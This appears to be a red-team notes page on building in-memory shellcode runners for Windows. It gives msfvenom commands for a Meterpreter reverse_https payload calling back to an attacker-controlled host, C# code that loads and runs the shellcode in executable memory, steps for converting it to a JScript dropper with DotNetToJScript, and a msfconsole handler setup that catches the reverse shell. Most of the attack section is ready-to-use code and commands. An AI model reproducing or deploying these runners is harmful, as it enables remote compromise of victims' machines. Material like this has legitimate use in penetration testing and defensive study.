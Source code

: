 ```yaml
---
title: Jscript and C# (In Memory)
layout: default
parent: Shellcode
nav_order: 3
---
```


<b>JScript runs in 64 bit by default!</b>

# Shellcode Part
[Theory Part](#theory-part)

## JScript Shellcode (Using DotNetToJscript) ##

1. Generate msfvenom with:\
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f csharp`

2. Use the following code (replace the buf):

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    public TestClass()
    {
        byte[] buf = xx;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```

3. Set to x64 and build (for 64 bit just the EasyAssembly will do).

4. Copy the following files to a same folder (remember look at x64 for ExampleAssembly):\
`DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJscript.exe`\
`DotNetToJScript-master\DotNetToJScript\bin\Release\NDesk.Options.dll`\
`DotNetToJScript-master\ExampleAssembly\bin\x64\Release\ExampleAssembly.dll`

5. Run the following in that folder:\
`DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js`

6. The runner.js is the actual file containing the payload.

7. Wait for incoming connection.

```
sudo systemctl start apache2
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```

# Theory Part
[Shellcode Part](#shellcode-part)

## Normal C# Build ##

1. Visual Studio -> Create New Project.

2. Change language dropdown to "C#" and select "Console App (.NET Framework)".

3. Location select anywhere, the rest default.

4. Debug change to Release. 

5. Build -> Build Solution.

## DotNetToJscript ##

1. Open the solution.

2. "ExampleAssembly" project -> TestClass.cs

3. Put code in TestClass function.

4. Build -> Build Solution.

5. Copy the following files to a same folder:\
`DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJscript.exe`\
`DotNetToJScript-master\DotNetToJScript\bin\Release\NDesk.Options.dll`\
`DotNetToJScript-master\ExampleAssembly\bin\Release\ExampleAssembly.dll`

6. Run the following command on the folder:\
`DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js`

7. The .js file can then be run without dll.

## Win32 API Calls ##

1. First browse to PInvoke.

2. Make the following changes:
* add the declaration `using ...`
* put the DllImport and function line in the class Program (but outside of Main)
* in Main, put in the call to the function added with required arguments

3. Sample code:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("user32.dll", CharSet = CharSet.Auto)]
        public static extern int MessageBox(IntPtr hWnd, String text, String caption, int options);

        static void Main(string[] args)
        {
             MessageBox(IntPtr.Zero, "This is my text", "This is my caption", 0);
        }
    }
}
```

## Shellcode Runner (C#) ##

1. Very similar to Powershell one, but generate msfvenom with:\
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f csharp`

2. Some changes like can use Marshal.Copy directly instead of specifying the .NET namespace. Sample shellcode:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,...,0xb5,0xa2,0x56,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

3\. Beside the Debug/Release dropdown, select "Any CPU" -> Configuration Manager -> "Platform" dropdown -> x64

4\. Build solution and done.

